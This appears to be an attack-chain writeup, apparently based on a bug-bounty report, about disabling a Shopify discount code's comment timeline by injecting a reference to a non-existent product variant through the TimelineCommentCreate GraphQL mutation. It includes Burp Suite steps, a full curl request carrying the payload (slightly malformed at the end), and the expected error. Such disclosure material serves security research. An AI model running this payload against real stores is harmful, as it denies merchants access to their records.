

# Disabling Shopify Discount Code Timeline via Malicious GraphQL Comment Reference

Multi-stage attack chain demonstrating exploitation of improper input validation in Shopify's GraphQL API for TimelineCommentCreate mutation, allowing any staff member to disable the timeline/comment section on a discount code by injecting a reference to a non-existent product variant.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Shopify Admin Panel (Web platform)
- Access to GraphQL API endpoints
- Staff account permissions for discounts section
- No specific ports; operates over HTTPS

### Initial Access Requirements

- Valid Shopify staff credentials (at least two accounts for testing)
- Network access to Shopify admin URL (e.g., https://admin.shopify.com)
- Burp Suite configured as proxy for request interception

## Detailed Attack Procedures

### Step 1: Setup Staff Accounts and Initial Discount Code

procedure: [[procedures/Setup-Shopify-Staff-Accounts-and-Discount-Code]]

**Objective**: Establish test environment by creating staff accounts and a discount code with an initial comment to enable the timeline.

**Instructions**: Log in to Shopify admin as a super admin to create two staff accounts (admin1 and admin2) with discounts access. Then, as admin1, navigate to the discounts section, create a new discount code, and add an initial comment.

**Expected Output**: Discount code created with ID (e.g., gid://shopify/PriceRule/298300342294) and timeline visible with the initial comment.

**Success Indicators**:
- Staff accounts active and able to access discounts
- Discount code page loads with timeline section present

### Step 2: Prepare Malicious Comment Injection

procedure: [[procedures/Intercept-and-Modify-GraphQL-Timeline-Comment-Create]]

**Objective**: Log in as admin2, navigate to the target discount code, and intercept the GraphQL request for adding a new comment using Burp Suite.

**Instructions**: Switch to admin2, go to the discount code page, start adding a comment, and configure Burp Suite to intercept the POST request to the GraphQL endpoint.

**Expected Output**: Intercepted request visible in Burp Suite with the TimelineCommentCreate mutation.

**Success Indicators**:
- Request intercepted successfully
- Mutation details match expected GraphQL structure

### Step 3: Modify and Send Malicious GraphQL Request

procedure: [[procedures/Intercept-and-Modify-GraphQL-Timeline-Comment-Create]]

**Objective**: Alter the 'message' parameter in the intercepted request to include a reference to a non-existent product variant, then forward the request to trigger the exception.

**Instructions**: In Burp Suite, modify the 'message' to '[#V12221027811351| ]', ensure 'resourceId' matches the discount code ID, and forward the request. Use [[commands/shopify-timeline-comment-create-malicious]] for reference if simulating via curl.

```bash
curl -X POST https://your-shop.myshopify.com/admin/api/2023-10/graphql.json \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Access-Token: your-token' \
  -d '{"operationName":"TimelineCommentCreate","variables":{"input":{"message":"[#V12221027811351| ]","resourceId":"gid://shopify/PriceRule/298300342294","attachments":[]}},"query":"mutation TimelineCommentCreate($input: TimelineCommentCreateInput!) { timelineCommentCreate(input: $input) { event { ...TimelineEvent __typename } userErrors { field message __typename } __typename } } fragment TimelineEvent on Event { id createdAt message ... on BasicEvent { attributeToApp attributeToUser __typename } ... on CommentEvent { rawMessage edited author { id name initials avatar(fallback: NOT_FOUND) { transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3) __typename } __typename } attachments { id image { transformedSrc(maxWidth: 50, maxHeight: 54, scale: 3) __typename } fileExtension size name url __typename } embed { ... on Product { id title featuredImage { altText transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3) __typename } tracksInventory totalInventory variants(first: 1) { edges { node { price __typename } __typename } __typename } __typename } ... on ProductVariant { id title image { altText transformedSrc(maxWidth: 50, maxHeight: 50, scale: 3) __typename } product { title __typename } inventoryQuantity inventoryItem { tracked __typename } __typename } ... on Customer { id displayName email ordersCount totalSpentV2 { amount currencyCode __typename } phone note __typename } ... on Order { id name createdAt totalPriceSet { shopMoney { amount currencyCode __typename } __typename } customer { id displayName __typename } lineItems(first: 250) { edges { node { id title product { id __typename } variant { id __typename } __typename } __typename } __typename } displayFinancialStatus displayFulfillmentStatus __typename } ... on DraftOrder { id name createdAt totalPrice totalPrice customer { id displayName __typename } lineItems(first: 250) { edges { node { id title product { id __typename } variant { id __typename } __typename } __typename } __typename } __typename } __typename } __typename } __typename } __typename } __typename } __typename } __typename }'}'
```

**Expected Output**: GraphQL response with internal error: {"errors":[{"message":"Internal error. Looks like something went wrong on our end.\nRequest ID: d8358e69-631c-45a7-929b-630b9abf8b5c (include this in support requests)."}]}

**Success Indicators**:
- Internal error response received
- No user errors in GraphQL but exception triggered

### Step 4: Verify Timeline Disablement

procedure: [[procedures/Verify-Timeline-Disablement-on-Discount-Code]]

**Objective**: Refresh the discount code page directly and indirectly to confirm the timeline section is hidden and access is denied.

**Instructions**: Attempt direct access to the discount code URL; if it errors, access via the discounts list (/admin/discounts/) and check for missing timeline.

**Expected Output**: Direct URL shows page error; indirect access loads page without timeline/comment section.

**Success Indicators**:
- Timeline hidden for all users including admins
- No ability to view or add comments
- Conversation history inaccessible

## Attack Chain Summary

### Key Achievements

1. Successfully created test environment with staff accounts and discount code.
2. Injected malicious reference in GraphQL comment to trigger unhandled exception.
3. Disabled timeline section, causing DoS on comment functionality for the affected discount code.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Endpoint Denial of Service]] Endpoint Denial of Service
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
